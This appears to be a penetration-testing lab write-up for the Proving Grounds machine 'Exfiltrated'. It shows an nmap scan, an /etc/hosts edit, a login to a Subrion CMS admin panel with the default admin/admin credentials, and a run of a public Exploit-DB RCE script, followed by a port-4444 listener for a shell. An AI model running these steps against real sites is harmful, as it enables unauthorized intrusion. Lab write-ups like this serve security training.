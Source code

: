 #### Enumeration

##### Nmap 

```
# Nmap 7.91 scan initiated Sat Sep 25 11:29:21 2021 as: nmap -Pn -p- -sC -sV -T4 -oN Exfiltrated.nmap 192.168.107.163
Nmap scan report for 192.168.107.163
Host is up (0.20s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1:99:4b:95:22:25:ed:0f:85:20:d3:63:b4:48:bb:cf (RSA)
|   256 0f:44:8b:ad:ad:95:b8:22:6a:f0:36:ac:19:d0:0e:f3 (ECDSA)
|_  256 32:e1:2a:6c:cc:7c:e6:3e:23:f4:80:8d:33:ce:9b:3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 7 disallowed entries 
| /backup/ /cron/? /front/ /install/ /panel/ /tmp/ 
|_/updates/
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://exfiltrated.offsec/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Sep 25 11:50:58 2021 -- 1 IP address (1 host up) scanned in 1297.06 seconds
```

Because we can't open the website through IP, we must modify DNS file.

```
sudo vim /etc/hosts
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Exfiltrated/Exfiltrated_2021.09.30_22h48m42s_001_.png)

The website is running Subrion CMS 4.2 and we found a RCE exploit to try.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Exfiltrated/Exfiltrated_2021.09.30_23h08m58s_002_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Exfiltrated/Exfiltrated_2021.09.30_23h18m36s_003_.png)

We successfully logged in with default credential. The username is ```admin``` and the password is ```admin``` too. Next we can try to use the [exploit](https://www.exploit-db.com/exploits/49876). In order to get the full shell function I started a terminal listening on port 4444 and reconnected.

```
python3 49876.py -u http://exfiltrated.offsec/panel/ -l admin -p admin
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Exfiltrated/Exfiltrated_2021.09.30_23h43m00s_004_.png)

